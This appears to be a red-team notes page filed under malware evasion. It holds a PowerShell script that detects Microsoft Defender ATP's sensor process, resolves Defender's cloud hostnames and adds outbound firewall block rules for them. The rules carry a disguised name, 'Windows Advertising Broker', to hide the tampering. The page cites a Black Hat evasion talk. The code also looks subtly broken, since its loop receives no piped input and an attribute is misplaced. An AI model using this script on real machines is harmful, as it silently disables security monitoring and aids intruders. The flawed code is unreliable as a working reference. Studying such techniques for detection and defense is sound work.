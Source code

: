 # Firewalls

```powershell
# Define Cloud Security Vendor Address
# Windows Defender ATP

$MSATP1 = "securitycenter.windows.com"
$MSATP2 = "winatp-gw-cus.microsoft.com"
$MSATP3 = "winatp-gw-eus.microsoft.com"
$MSATP4 = "winatp-gw-weu.microsoft.com"
$MSATP5 = "winatp-gw-neu.microsoft.com"
$MSATP6 = "us.vortex-win.data.microsoft.com"
$MSATP7 = "eu.vortex-win.data.microsoft.com"
$MSATP8 = "psapp.microsoft.com"
$MSATP9 = "psappeu.microsoft.com"
$MSATPURLs = $MSATP1,$MSATP2,$MSATP3,$MSATP4,$MSATP5,$MSATP6,$MSATP7,$MSATP8,$MSATP9

# Checking for Behavioural Analysis AV security product processes and adding outbound FW blocks
Write-Output ("[*] Checking for Behavioural Analytics AV security product processes and adding outbound firewall block rules" + "`n")
[CmdletBinding()]
$processnames = Get-Process | Select-Object ProcessName
Foreach ($ps in $processnames) {
    if ($ps.ProcessName -like "*MsSense*") {
        Write-Output ("[*] Defender ATP process " + $ps.ProcessName + " is running." + " Resolving ATP FQDN IP's and blocking outbound connections.")
        $MSATPCouldIPs = $MSATPURLs | foreach {[System.Net.Dns]::GetHostAddresses($_)} | Select-Object -ExpandProperty IPAddressToString
        Foreach-Object {
            New-NetFirewallRule -DisplayName "Windows Advertising Broker" -Direction Outbound -Action Block -RemoteAddress "$_" -Profile Any
            Write-Host "$_ - Outbound Firewall Block Was Added: $?"
        }
    }
}
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Malware Development/Helpers/Evasion/Detection/Security Vendors/Windows/Microsoft]]

### Blackhat

- [Blackhat: Red Team Techniques for Evading, Bypassing, and Disabling MS Advanced Threat Protection and Advanced Threat Analytics](https://www.blackhat.com/docs/eu-17/materials/eu-17-Thompson-Red-Team-Techniques-For-Evading-Bypassing-And-Disabling-MS-Advanced-Threat-Protection-And-Advanced-Threat-Analytics.pdf)